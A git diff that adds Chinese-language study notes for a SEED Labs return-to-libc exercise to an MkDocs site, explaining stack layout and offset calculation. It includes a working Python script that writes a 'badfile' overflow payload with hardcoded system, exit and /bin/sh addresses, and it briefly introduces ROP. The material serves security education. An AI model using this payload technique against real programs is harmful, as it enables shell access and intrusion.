

Before and after one commit to cc3213252/note-seed-labs, an MkDocs documentation site: the page built from docs/returntolibc/attack.md, in a window 1280 px wide and 1400 px high, scrolled down 2530 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
return-to-libc攻击

````diff
--- a/docs/returntolibc/attack.md
+++ b/docs/returntolibc/attack.md
@@ -50,3 +50,65 @@
 ![c语言内存布局](../img/overflow-memory.png)
 根据之前缓冲区溢出中程序原理图，小端序高字节保存在内存高地址，而栈的方向是从高地址往低地址，
 故是函数名称先入栈。
+
+## 第三阶段
+
+### 问题的产生
+
+正常的函数调用是这样的，函数被调用前，调用者把所需参数压入栈中，然后跳转到函数开头，一旦进入
+被调用函数，可以通过帧指针ebp（栈底指针）获得传递参数。
+但是return-to-libc攻击中不是这样的，漏洞程序跳转到system()函数之前，需要自行将参数（即
+/bin/sh的地址）放入栈中。关键在于参数应该放在栈的哪个位置。
+
+### 分析
+
+我们的目标是在函数返回时跳转到system函数，故返回地址填system函数的地址，那么这时system栈帧应该
+如下图：
+![system函数的栈帧](../img/returntolibc-system.png)
+可以知道的是，system函数第一个参数肯定在%ebp + 8处，system函数返回地址即%ebp +4处放exit函数
+的地址，可以完美终止程序
+![system函数位置确定](../img/returntolibc-system2.png)
+上图中vul_func函数对应我们这里foo函数。从上图3可知，栈顶ebp在system最后一个参数位置处，4的位置就是
+buffer函数地址。
+如果计算出ebp到buffer的距离，就能够算出三个位置距离缓冲区起始位置的偏移值。
+system函数的地址是偏移 + 4
+exit函数的地址是偏移 + 8
+字符串/bin/sh的地址是偏移 + 12
+
+### 实验
+
+确定偏移实验
+![确定偏移](../img/returntolibc-step3.png)
+
+漏洞利用程序
+```python
+#!/usr/bin/python3
+import sys
+
+# 给content填上非零值
+content = bytearray(0xaa for i in range(300))
+
+a3 = 0xbfffff56     # /bin/sh的地址
+content[120:124] = (a3).to_bytes(4, byteorder='little')
+
+a2 = 0xb7e56260     # exit函数地址
+content[116:120] = (a2).to_bytes(4, byteorder='little')
+
+a1 = 0xb7e63310     # system函数地址
+content[112:116] = (a1).to_bytes(4, byteorder='little')
+
+file = open("badfile", "wb")
+file.write(content)
+file.close()
+```
+![攻击成功](../img/returntolibc-step32.png)
+
+!!! 实验注意点
+
+    上述实验开始没注意到函数名称的长度必须和stack一样，故后来取名env55攻击成功。
+    ubuntu 16.04以上需要sudo ln -sf /bin/zsh /bin/sh
+
+!!! 返回导向编程
+
+    简称ROP，return-to-libc攻击不一定需要返回到一个已有函数，思想是巧妙地把内存中的一些小指令序列串联，
+    这些指令并不在一起，但最后一个指令都是return，通过设置都会返回到下一个指令地址。
````
Also changed, not shown: docs/img/returntolibc-step3.png (added), docs/img/returntolibc-step32.png (added), docs/img/returntolibc-system.png (added), docs/img/returntolibc-system2.png (added).
